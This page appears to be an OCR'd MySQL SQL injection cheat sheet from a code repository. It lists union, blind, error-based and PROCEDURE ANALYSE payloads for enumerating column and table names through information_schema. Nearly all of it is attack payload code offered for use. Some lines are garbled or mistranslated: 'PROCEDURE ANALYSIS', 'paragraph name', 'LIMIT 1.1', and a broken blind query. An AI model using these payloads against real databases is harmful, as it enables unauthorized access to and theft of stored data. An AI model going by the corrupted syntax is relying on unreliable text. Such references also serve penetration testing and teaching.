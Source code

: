 
### Column name


- union query


    ```sql

    UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename'

    ```



- blind


    ```sql

    AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'

    ```



- Error


    ```sql

-- Successful in version 5.1.5
    AND (1,2,3) = (SELECT * FROM SOME_EXISTING_TABLE UNION SELECT 1,2,3 LIMIT 1)

-- MySQL 5.1 has been fixed
    AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),FLOOR(RAND(0)*2))) (@:=1)||@ GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),!@) HAVING @||MIN(@:=0); AND ExtractValue(1, CONCAT(0x5c, (SELECT column_name FROM information_schema.columns LIMIT 1)));
    ```



- 利用 `PROCEDURE ANALYSIS ()`


    ```sql

-- This requires a web display page with a field for the query you injected
-- Get the first paragraph name
    SELECT username, permission FROM Users WHERE id = 1; 1 PROCEDURE ANALYSE()

-- Get the second section name
1 LIMIT 1.1 PROCEDURE ANALYSIS ()
-- Get the third paragraph name
1 LIMIT 2.1 PROCEDURE ANALYSIS ()
    ```



### Query the table based on the column name


```sql

-- Query the table whose name is username
SELECT table_name FROM information_schema.columns WHERE column_name = 'username';

-- Query the table containing the username in the field name
SELECT table_name FROM information_schema.columns WHERE column_name LIKE '%user%';

```
